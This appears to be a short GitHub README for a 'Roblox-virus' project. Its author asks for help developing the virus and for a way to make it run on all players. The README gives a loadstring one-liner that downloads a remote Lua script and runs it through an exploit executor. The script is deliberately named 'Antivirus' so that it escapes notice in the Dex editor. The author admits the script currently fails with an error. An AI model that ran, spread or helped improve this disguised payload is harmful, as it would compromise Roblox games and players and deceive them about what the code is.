 Roblox-virus

Hello! , this is a roblox virus,
but is the Initial-Prelease ,
and please help me in the virus developing

How to use?
Copy in your exploit the loadstring :
loadstring(game:HttpGet(('https://raw.githubusercontent.com/ELJOKER900/Roblox-END/main/Antivirus.Lua'), game.Workspace.ServerScriptService)

(WARNING, SCRIPTS DOES NOT WORKS BECAUSE AN ERROR , PLEASE WAIT)
(and the "AntiVirus" not is an antivirus , It is the mask of the virus, which makes no one with the Dex editor suspicious)
(And i need help to make that script executes on all players )
